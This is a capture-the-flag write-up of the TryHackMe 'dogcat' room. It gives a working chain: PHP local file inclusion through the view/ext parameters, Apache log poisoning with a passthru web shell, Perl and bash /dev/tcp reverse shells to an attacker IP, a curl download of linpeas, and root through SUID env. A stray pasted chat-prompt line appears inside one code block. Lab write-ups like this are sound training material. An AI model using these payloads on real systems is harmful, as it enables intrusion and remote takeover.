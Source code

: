 # Link
- https://tryhackme.com/room/dogcat

# Info

## IP = $IP
# Ports

## Port Scanning
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## 22
### `nmap`
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2431192ab1971a044e2c36ac840a7587 (RSA)
|   256 213d461893aaf9e7c9b54c0f160b71e1 (ECDSA)
|_  256 c1fb7d732b574a8bdcd76f49bb3bd020 (ED25519)
```

## 80

### `nmap`
```
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```
### Exploring
- query-param is strange...

### Exploiting query-param
- must have 'cat' or 'dog' string
- Error
```
GET /?view=cat'admin 

<b>Warning</b>:  include(): Failed opening 'cat'admin.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/index.php
```
- PHP Wrappers?
    - https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- cat%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd with dot truncation?
    - https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers
- Got the base64 for any php file!
    - `php://filter/convert.base64-encode/resource==cat/../index`
- Reading `index.php`, I got a interesting part:
```
User
Cite apenas o que esta parte faz:

 <?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
- Creating a `ext` parameter in URL
    - I CAN READ ANY FILE =D
- Reading `/etc/passwd`
- Log poisoning
    - https://chryzsh.gitbooks.io/pentestbook/content/local_file_inclusion.html
```bash
┌──(kali㉿kali)-[~]
└─$ nc $IP 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
HTTP/1.1 400 Bad Request
Date: Sun, 25 Feb 2024 20:59:43 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 302
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 172.17.0.2 Port 80</address>
</body></html>
```
```
GET /?view=cat%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2flog%2fapache2%2faccess.log&ext=&cmd=ls HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://$IP/
Upgrade-Insecure-Requests: 1
```
- Verifying the binaries, I found `perl`. Trying rev-shell with it
- view: `../../../../cat/../var/log/apache2/access.log`
- cmd: `perl -e 'use Socket;$i="$ATK_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'`
```
GET /?view=..%2f..%2f..%2f..%2fcat%2f..%2fvar%2flog%2fapache2%2faccess.log&ext=&cmd=perl%20-e%20'use%20Socket%3b%24i%3d%22$ATK_IP%22%3b%24p%3d1234%3bsocket(S%2cPF_INET%2cSOCK_STREAM%2cgetprotobyname(%22tcp%22))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i))))%7bopen(STDIN%2c%22%3e%26S%22)%3bopen(STDOUT%2c%22%3e%26S%22)%3bopen(STDERR%2c%22%3e%26S%22)%3bexec(%22%2fbin%2fsh%20-i%22)%3b%7d%3b' HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://$IP/
Upgrade-Insecure-Requests: 1
```

# PrivEsc

## LinPeas
```bash
curl -O http://$ATK_IP:8000/linpeas.sh
```

## First flag
- _/var/www/html/flag.php_

## Second flag
- _/var/www/flag2\_QMW7JvaY2LvK.txt_

## SUID permissions on `env`
- https://gtfobins.github.io/gtfobins/env/#suid
```bash
$ env /bin/bash -p
whoami
root
```

## Interesting file
```bash
cat /opt/backups/backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

## Trasnforming this file into a rev shell
```bash
cd backups
echo "#!/bin/bash" > backup.sh
echo "bash -i >& /dev/tcp/$ATK_IP/1337 0>&1" >> backup.sh
cat backup.sh
#!/bin/bash
bash -i >& /dev/tcp/$ATK_IP/1337 0>&1
```

## Waiting for execution of _backup.sh_
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [$ATK_IP] from (UNKNOWN) [$IP] 51154
bash: cannot set terminal process group (2545): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
cat flag4.txt
```